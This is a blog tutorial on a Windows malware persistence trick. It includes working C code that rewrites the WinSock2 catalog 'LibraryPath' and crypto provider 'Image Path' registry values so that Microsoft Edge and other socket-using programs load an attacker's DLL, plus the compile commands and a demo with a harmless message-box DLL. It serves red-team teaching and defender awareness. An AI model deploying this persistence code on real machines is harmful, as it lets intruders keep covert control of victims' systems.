 ```yaml
---
title:  "Malware development: persistence - part 26. Microsoft Edge - part 1. Simple C example."
date:   2024-08-14 03:00:00 +0300
header:
  teaser: "/assets/images/132/2024-08-19_21-36.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/132/2024-08-19_21-36.png){:class="img-responsive"}    

This post came about in preparation for a workshop on *Malware Persistence techniques* that I teach at various conferences in Europe and Asia. This post shows that interesting persistence methods can be found via [Sysinternals Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) via filters, this is a well-known and popular method, I just want to show it in practice. In my case, everything worked out thanks to one of the registry keys that is used by many applications of the operating system, in particular Microsoft Edge:      

```powershell
"HKLM\System\CurrentControlSet\Services\WinSock2\Parameters\NameSpace_Catalog5\Catalog_Entries64\000000000007"
```

Apparently this registry path is used by all applications that work with sockets.     

### practical example

First of all, I just start with simple filters in Procmon, like this:     

![pers](/assets/images/132/2024-08-14_14-23_1.png){:class="img-responsive"}     

As a result we will get many many interesting records:      

![pers](/assets/images/132/2024-08-14_14-23.png){:class="img-responsive"}     

As you can see, we can replace different registry key values:    

![pers](/assets/images/132/2024-08-14_14-24.png){:class="img-responsive"}     

As an experiment I decided to replace one of these DLLs.    

In C it's looks like this:    

```cpp
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // RSA
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Cryptography\\Defaults\\Provider\\Microsoft Strong Cryptographic Provider", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"Image Path", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

or another value:    

```cpp
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // RSA???
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Cryptography\\Defaults\\Provider\\Microsoft Enhanced RSA and AES Cryptographic Provider", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"Image Path", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

It certainly worked:     

![pers](/assets/images/132/2024-08-14_14-16.png){:class="img-responsive"}     

But the caveat is that the entire operating system froze after this and even the antivirus started freeze.    

So i decided to start a new search:     

![pers](/assets/images/132/2024-08-19_21-53.png){:class="img-responsive"}     

After a long search I found another interesting key and value in the registry:     

```powershell
reg query "HKLM\System\CurrentControlSet\Services\WinSock2\Parameters\NameSpace_Catalog5\Catalog_Entries64\000000000007" /s
```

![pers](/assets/images/132/2024-08-20_13-02.png){:class="img-responsive"}     

and tried to replace it. For this just update `LibraryPath` value:    

```cpp
/*
 * hack.c
 * Microsoft Edge
 * persistence trick v1.0
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/08/14/malware-pers-26.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"System\\CurrentControlSet\\Services\\WinSock2\\Parameters\\NameSpace_Catalog5\\Catalog_Entries64\\000000000007", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry keys
    RegSetValueEx(hkey, (LPCSTR)"LibraryPath", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, the code is pretty simple as usual, just set value via `RegSetValueEx` function. In my case, `hack.dll` - just `meow-meow` messagebox:    

```cpp
/*
 * hack.c
 * "malware" for Microsoft Edge
 * persistence trick
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/08/14/malware-pers-26.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBoxA(NULL, "Meow-meow!!", "=^..^=", MB_OK);
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### demo

Let's check everything in action.     

Compile our `meow-meow` "malware" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/132/2024-08-20_13-08.png){:class="img-responsive"}      

And compile persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/132/2024-08-20_13-08_1.png){:class="img-responsive"}      

Then, run it on test victim's machine (Windows 11 x64):    

```powershell
.\pers.exe
```

![malware](/assets/images/132/2024-08-20_13-14.png){:class="img-responsive"}      

As you can see, registry key value is successfully updated. Note that we need Administrative privleges for update this Registry value.        

Then, try to open `Microsoft Edge`:    

![malware](/assets/images/132/2024-08-19_21-35.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-33.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-34.png){:class="img-responsive"}     

For the correctness of the experiment, we will launch our Process Hacker 2 and check memory:    

![malware](/assets/images/132/2024-08-19_21-46.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-46_1.png){:class="img-responsive"}     

As you can see, `hack.dll` started correctly, the same effect will be for other Windows programs, even `Procmon64.exe`. I assume the behavior will be the same if you open anything that uses Windows sockets. To be honest, I don't know what this particular registry parameter is used for, but it seems to have something to do with sockets.        

So, everything worked as expected. Perfect! =^..^=     

This PoC is how an attacker might use different Windows features like socket connections for running a "malicious" DLL.     

I hope this post spreads awareness to the blue teamers of this interesting persistence technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.     

[Windows Sockets](https://learn.microsoft.com/en-us/windows/win32/winsock/windows-sockets-start-page-2)     
[Malware persistence - part 1. Registry run keys](/tutorial/2022/04/20/malware-pers-1.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-08-14-malware-pers-26)    

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
